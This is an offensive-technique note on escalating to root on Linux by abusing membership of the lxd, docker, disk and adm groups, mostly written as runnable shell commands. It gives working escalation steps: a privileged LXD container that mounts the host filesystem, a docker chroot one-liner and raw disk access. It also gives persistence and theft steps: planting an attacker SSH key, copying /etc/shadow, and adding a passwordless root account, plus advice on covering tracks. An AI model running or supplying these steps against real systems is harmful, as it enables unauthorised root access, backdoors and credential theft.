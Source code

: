 ### 1. Technique Name:

Privileged Group Membership – Abusing `lxd`, `docker`, `disk`, and `adm` Groups for Privilege Escalation
### 2. Summary:

On Linux systems, certain groups grant elevated or sensitive capabilities to their members. If a user is part of one of these privileged groups (such as `lxd`, `docker`, `disk`, or `adm`), they can often escalate to root or access critical system information.

This technique explores how to exploit group memberships to:

- Spawn privileged containers and mount the host filesystem (`lxd`, `docker`)    
- Directly access block devices (`disk`)
- Read sensitive logs (`adm`)
### 3. Conditions / Requirements:

- The target user must belong to one of the following groups: `lxd`, `docker`, `disk`, `adm`    
- The required tools (`lxc`, `docker`, etc.) must be installed
- Local shell access to the target system  
### 4. Enumeration Steps:
#### A. Check group memberships:

```bash
id
```
#### B. Review `/etc/group` for potentially dangerous group assignments:

```bash
grep -E 'docker|lxd|disk|adm' /etc/group
```
### 5. Exploitation Steps
#### A. **LXD Group Abuse**

If user belongs to `lxd`:

```bash
# Check group
id | grep lxd

# Import Alpine image
unzip alpine.zip
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

# Start privileged container
lxc init alpine r00t -c security.privileged=true

# Mount host FS
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

# Launch and gain root shell inside container
lxc start r00t
lxc exec r00t /bin/sh
```

You now have full access to `/mnt/root` (host root filesystem).
#### B. **Docker Group Abuse**

If user belongs to `docker`:

```bash
# Start container and mount host root
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

Now you are inside the host's root filesystem with root privileges.
#### C. **Disk Group Abuse**

If user belongs to `disk`:

```bash
# Enumerate block devices
lsblk

# Mount disk directly
sudo mount /dev/sda1 /mnt  # If not already mounted

# OR use debugfs for raw access
sudo debugfs /dev/sda1
```

You can read raw files and copy `/etc/shadow`, SSH keys, etc.
#### D. **ADM Group Abuse**

If user belongs to `adm`:

```bash
# Read sensitive logs
cat /var/log/auth.log
cat /var/log/syslog
```

You may find:

- User login activity
- Cron job schedules    
- Application logs with passwords or tokens
### 6. Post-Exploitation Tips:

- Drop an SSH key for persistence (if root access is gained):

```bash
echo 'ssh-rsa AAAA... attacker@box' >> /mnt/root/root/.ssh/authorized_keys
```

- Copy password hashes for offline cracking:
   
```bash
cp /mnt/root/etc/shadow .
```

- Add a root user:

```bash
echo 'haxor::0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd
```

- Clean up containers or temp files if stealth is desired
### 7. Example / Notes:

- LXD group escalation:  

```bash
lxc exec r00t /bin/sh
~ # id
uid=0(root) gid=0(root)
```

- Docker privilege escalation:

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
# id
uid=0(root) gid=0(root)
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Privileged_Groups